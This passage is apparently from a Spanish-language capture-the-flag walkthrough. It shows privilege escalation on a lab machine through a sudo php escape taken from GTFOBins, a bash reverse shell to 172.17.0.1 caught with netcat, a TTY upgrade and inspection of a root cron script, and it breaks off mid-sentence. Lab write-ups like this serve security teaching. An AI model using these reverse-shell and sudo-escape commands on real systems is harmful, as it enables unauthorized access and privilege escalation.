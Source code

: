 vale podemos ejecutar php como el usuario boss, vamos a ver los usuarios del sistema:
```bash
 cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
boss:x:1001:1001:boss,,,:/home/boss:/bin/bash
```

pues boss y ya root, esto pinta bien, vamos a nuestra página de explotación de binarios:
```bash
https://gtfobins.github.io/
```
y buscamos php para sudo:
```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
vamos a adecuarlo un poco mejor :
```bash
sudo -u boss /bin/php -r "system('/bin/bash');"
```
todo perfecto y... nos saca a patadas!!!!!
pues a las bravas, me voy a un directorio donde puedra escribir y ya que nano también me da problemas con "echo" meto 
contenido en un archivo:
```bash
echo 'bash -i >& /dev/tcp/172.17.0.1/446 0>&1' > rev.sh
```
doy permisos de ejecución:
```bash
chmod +x rev.sh
```
me pongo a la escucha en el puerto 446:
```bash
sudo nc -lvnp 446
```
y ahora ejecuto el comando haciendo que ejecute el archivo como el usuario boss:
```bash
sudo -u boss /bin/php -r "system('bash /tmp/rev.sh');"
```
y ay somos usuario boss, hago tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
Después de mirar si tenemos alguna clase de privilegio, no encuentro nada, miro los procesos que se ejecutan:
```bash
ps aux
```
y veo algo interesante:
```
/bin/sh -c service apache2 start && service cron start && while true; do /var/spool/cron/crontabs/root.sh; sleep 60; done
```
ejecuta en bucle /var/spool/cron/crontabs/root.sh y para el bucle 60 segundos antes de volver a ejecutarlo
```bash
ls -la /var/spool/cron/crontabs/root.sh
```
```
-rwxr-xr-x 1 root crontab 1186 Jan 16 13:02 /var/spool/cron/crontabs/root.sh
```
puedo al menos leer lo que hay y veo que ejecuta dos cosas: